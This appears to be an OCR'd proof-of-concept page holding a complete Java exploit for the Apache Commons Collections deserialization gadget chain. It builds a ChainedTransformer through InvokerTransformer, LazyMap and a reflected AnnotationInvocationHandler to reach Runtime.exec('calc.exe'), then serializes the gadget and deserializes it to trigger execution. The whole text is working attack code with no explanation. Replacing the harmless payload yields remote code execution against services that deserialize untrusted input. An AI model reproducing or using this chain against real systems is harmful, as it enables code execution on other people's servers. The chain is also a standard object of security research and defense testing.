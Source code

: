 POC：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;
public class Test {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class), 
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class}, new String[] { "calc.exe" }),
};
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
        construct.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) construct.newInstance(Retention.class, outerMap);
        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class}, handler);
        handler = (InvocationHandler) construct.newInstance(Retention.class, proxyMap);
        
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(handler);
        oos.close();
        
        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```
